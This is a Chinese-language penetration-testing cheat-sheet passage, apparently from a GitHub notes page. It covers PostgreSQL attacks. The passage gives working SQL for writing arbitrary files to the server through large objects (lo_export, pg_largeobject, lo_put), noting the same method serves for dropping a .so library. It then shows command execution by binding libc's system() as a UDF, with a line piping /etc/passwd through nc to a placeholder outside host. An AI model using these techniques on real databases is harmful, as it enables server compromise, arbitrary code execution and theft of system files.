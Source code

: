 

#### lo_export + pg_largeobject

```postgresql
-- 记下生成的lo_creat ID
select lo_creat(-1);

-- 替换 24577 为生成的lo_creat ID
INSERT INTO pg_largeobject(loid, pageno, data) values (24577, 0, decode('ZmZmZmZmZmYweA==', 'base64'));
select lo_export(24577, '/tmp/success.txt');

如果内容过多，那么首先创建一个 OID 作为写入的对象, 然后通过 0,1,2,3… 分片上传但是对象都为 12345 最后导出到 /tmp 目录下, 收尾删除 OID

写的文件每一页不能超过 2KB，所以我们要把数据分段，这里我就不拿 .so 文件为例了,就随便写个 txt 举个例子

SELECT lo_create(12345);
INSERT INTO pg_largeobject VALUES (12345, 0, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 1, decode('666666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 2, decode('6666', 'hex'));
INSERT INTO pg_largeobject VALUES (12345, 3, decode('663078', 'hex'));
SELECT lo_export(12345, '/tmp/ffffffff0x.txt');
SELECT lo_unlink(12345);

或者还可以用 lo_put 在后面拼接进行写入

select lo_create(11116);
select lo_put(11116,0,'dGVzdDEyM');
select lo_put(11116,9,'zQ1Ng==');

select lo_from_bytea(11141,decode(encode(lo_get(11116),'escape'),'base64'));
select lo_export(11141,'/tmp/test.txt');
SELECT lo_unlink(11141);

结束记得清理 OID 内容
-- 查看创建的 lo_creat ID
select * from pg_largeobject

-- 使用 lo_unlink 进行删除
SELECT lo_unlink(12345);
```



#### 利用 UDF 命令执行

在 8.2 以前,postgresql 不验证 magic block,可以直接调用本地的 libc.so

```postgresql
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS '/lib/x86_64-linux-gnu/libc.so.6', 'system' LANGUAGE 'c' STRICT;
SELECT system('cat /etc/passwd | nc xxx.xx.xx.xx');
```
